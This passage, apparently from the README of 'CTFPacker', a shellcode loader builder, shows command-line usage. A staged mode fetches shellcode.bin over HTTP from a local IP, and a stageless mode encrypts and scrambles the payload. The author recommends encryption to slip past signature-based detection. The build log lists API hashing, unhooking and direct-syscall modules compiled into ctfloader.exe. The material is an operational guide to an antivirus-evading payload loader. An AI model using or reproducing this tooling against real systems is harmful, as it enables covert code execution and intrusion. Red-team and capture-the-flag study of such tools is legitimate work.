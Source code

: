With this command, your telling the loader to connect to the `192.168.2.121` IP, at port `8080` and download the `shellcode.bin` file. So you should serve this file via a webserver.

```powershell
C:\Code\CTFPacker\CTF Packer>ls
shellcode.bin

C:\Code\CTFPacker\CTF Packer>python -m http.server 8080
Serving HTTP on :: port 8080 (http://[::]:8080/) ...
```

### Stageless

This is fairly simple. The shellcode will be included into the loader. I recommend you to use the encryption arg `-e`. Otherwise the signature-based detection will likely catch it.

```powershell
C:\Code\CTFPacker>ls
core  custom_certs  main.py  requirements.txt templates

C:\Code\CTFPacker>python main.py stageless -p "C:\Code\CTFPacker\calc.bin" -e -s



 ▄████▄  ▄▄▄█████▓  █████▒██▓███   ▄▄▄       ▄████▄   ██ ▄█▀▓█████  ██▀███
▒██▀ ▀█  ▓  ██▒ ▓▒▓██   ▒▓██░  ██▒▒████▄    ▒██▀ ▀█   ██▄█▒ ▓█   ▀ ▓██ ▒ ██▒
▒▓█    ▄ ▒ ▓██░ ▒░▒████ ░▓██░ ██▓▒▒██  ▀█▄  ▒▓█    ▄ ▓███▄░ ▒███   ▓██ ░▄█ ▒
▒▓▓▄ ▄██▒░ ▓██▓ ░ ░▓█▒  ░▒██▄█▓▒ ▒░██▄▄▄▄██ ▒▓▓▄ ▄██▒▓██ █▄ ▒▓█  ▄ ▒██▀▀█▄
▒ ▓███▀ ░  ▒██▒ ░ ░▒█░   ▒██▒ ░  ░ ▓█   ▓██▒▒ ▓███▀ ░▒██▒ █▄░▒████▒░██▓ ▒██▒
░ ░▒ ▒  ░  ▒ ░░    ▒ ░   ▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ░▒ ▒  ░▒ ▒▒ ▓▒░░ ▒░ ░░ ▒▓ ░▒▓░
  ░  ▒       ░     ░     ░▒ ░       ▒   ▒▒ ░  ░  ▒   ░ ░▒ ▒░ ░ ░  ░  ░▒ ░ ▒░
░          ░       ░ ░   ░░         ░   ▒   ░        ░ ░░ ░    ░     ░░   ░
░ ░                                     ░  ░░ ░      ░  ░      ░  ░   ░
░                                           ░



        Author: B0lg0r0v
        https://arthurminasyan.com

[i] Stageless Payload selected.
[+] Starting the process...
[+] Template files modified !
[i] Encryption selected.
[+] Encrypting the payload...
[+] Payload encrypted and saved into payload[] variable in main.c !
[i] Scrambling selected.
[+] Scrambling the loader...
[+] Loader scrambled !
rm -f *.o *.obj ctfloader.exe
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c api_hashing.c -o api_hashing.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c inject.c -o inject.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c main.c -o main.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c unhook.c -o unhook.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c whispers.c -o whispers.o
nasm -f win64   whispers-asm.x64.asm -o whispers-asm.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -o ctfloader.exe api_hashing.o inject.o main.o unhook.o whispers.o whispers-asm.o -Wl,--disable-auto-import -s -lwinhttp -lntdll
[+] Loader compiled !
[+] DONE !

C:\Code\CTFPacker>ls
core  ctfloader.exe  custom_certs  main.py  requirements.txt  shellcode.bin  templates
```
